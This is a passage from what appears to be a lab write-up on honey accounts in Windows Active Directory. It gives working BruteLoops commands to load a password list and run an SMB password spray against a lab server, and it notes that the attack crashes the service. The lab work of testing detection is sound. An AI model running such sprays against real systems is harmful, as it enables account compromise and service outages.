 ![](../../__attachments/Honey%20Accounts%20in%20Windows%20AD/Project%20Workspace/IMG-20231206023406183.png)

Populate the database with passwords as listed below.

```bash
python3 bl-dbmanager.py doazlab.db import-spray-values --password-files /opt/passwords.txt
```

![](../../__attachments/Honey%20Accounts%20in%20Windows%20AD/Project%20Workspace/IMG-20231206023456480.png)
# Attack: Execute SMB Password Spray with BruteLoops
Once the SQLite3 database was populated with usernames and passwords from the last step, we use the the following command to instantiate the attack.

```bash
python3 bl-example.py doazlab.db -pgc 1 -at 1 -ajmin .2s -ajmax .5s -tjmin 60m -tjmax 65m -lf spray-smb.log smb.smb --server-ip 192.168.2.4
```

**This attack will crash the remote service consistently.**

![](../../__attachments/Honey%20Accounts%20in%20Windows%20AD/Project%20Workspace/IMG-20231206022407968.png)

